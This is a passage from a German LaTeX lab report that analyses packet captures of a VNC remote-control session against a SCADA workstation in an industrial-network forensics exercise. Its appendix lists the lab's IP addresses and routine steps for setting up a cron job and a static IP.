    
\includegraphics[width=\textwidth]{ws-vnc-connection.png}
    \caption{Erfolgreiche VNC-Verbindung}
    \label{fig:ws-vnc-connection}
\end{figure}

\subsubsection{Phase 5}
Feinarbeit (attack5.pcapng)
\\ \\ 
\textbf{Schauen Sie sich die einzelnen TCP-Sessions an. (Filter: tcp.stream == <n>) Sie suchen die Session, bei welcher die Teilnehmer 10.3.5.3 und 10.3.5.5 miteinander kommunizieren.}
\\
In der relevanten TCP-Session zwischen 10.3.5.3 und 10.3.5.5 ist eine VNC-Sitzung zu beobachten, in der verschiedene Client-Pointer-Events ausgeführt werden. Dies deutet auf eine aktive Fernsteuerung hin.

\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{ws-vnc-session.png}
    \caption{VNC-Sitzung zwischen Techniker-Arbeitsplatz und SCADA-System}
    \label{fig:ws-vnc-session}
\end{figure}

\textbf{Gegeben sind folgende Richtlinien:
Der SCADA-Arbeitsplatz ist ausschließlich für die Steuerung der PLCs verantwortlich.
Der Techniker-Arbeitsplatz wartet den Programmcode der PLCs und die entsprechende Anwendung auf dem SCADA-Arbeitsplatz mittels normalem VNC (TCP-Port 5900).\\
Gegen welche Richtlinie wird verstoßen?}
\\
Streng genommen wird gegen keine der genannten Richtlinien verstoßen. Die VNC-Verbindung vom Techniker-Arbeitsplatz zum SCADA-Arbeitsplatz über Port 5900 ist explizit erlaubt. Allerdings könnte man argumentieren, dass die Nutzung dieser Verbindung zur direkten Steuerung der PLCs problematisch sein könnte, da dies eigentlich die exklusive Aufgabe des SCADA-Arbeitsplatzes ist. Die Trennung dieser Verantwortlichkeiten ist in der Praxis schwer zu gewährleisten.

\subsubsection{Phase 6}
Abschlussbetrachtung
\\ \\
\textbf{Tragen Sie die einzelnen Vorgänge kurz zusammen und welche Informationen Sie daraus ziehen konnten?}
\\
TODO

\newpage
\section{Anhang}

\subsection{Netzwerk}
Im folgenden wird das Netzwerk sowie die darin enthaltenen IP-Adressen dargelegt.
\begin{itemize}
	\item Basis-IP: 192.168.0.0
	\item Netzmaske: 255.255.255.0 (CIDR: 24)
	\item Erste IP-Adresse: 192.168.0.1
	\item Letzte IP-Adresse: 192.168.0.254
	\item Bestehende Clients:
		\subitem Firewall: 192.168.0.220
		\subitem Webserver: 192.168.0.221
		\subitem Client: 192.168.0.100
\end{itemize}

\subsection{Hinzufügen eines Cron-Jobs}\label{cron-job}
Um einen Cron-Job anzulegen wurden folgende Schritte durchgeführt.
\begin{enumerate}
	\item Der jeweils relevante Firewall-Skript wurde ausführbar gemacht: \\ \lstinline[breaklines]|$ sudo chmod +x <name des Skripts>|.
	\item Das Interface zum bearbeiten der Crontabs wurde geöffnet: \\ \lstinline[breaklines]|sudo crontab -e|.
	\item Am Ende wurde die Zeile \lstinline[breaklines]|@reboot sudo bash <pfad zum Skript>| eingefügt.
\end{enumerate}

\subsection{Setzen einer statischen IP-Adresse}\label{static-ip}
Um eine statische IP-Adresse zu setzen wurden folgende Schritte durchgeführt.
\begin{enumerate}
	\item Die Datei \lstinline[breaklines]|/etc/network/interfaces| wurde mit einem Texteditor geöffnet.
	\item Die bestehenden Einträge wurden auskommentiert.
	\item Folgender Text wurde am Ende eingefügt:
	\begin{lstlisting}[breaklines]
auto eth0
iface eth0 inet static
	address <statische ip-adresse hier>
	netmask 255.255.255.0
	gateway 192.168.0.220 # ip adresse der firewall
	\end{lstlisting}
	\item Die Datei wurde gespeichert und das System neugestartet.
\end{enumerate}

% Referenzen bitte in references.bib einfügen
\newpage
\bibliographystyle{ieeetr}
\bibliography{references}
\end{document}
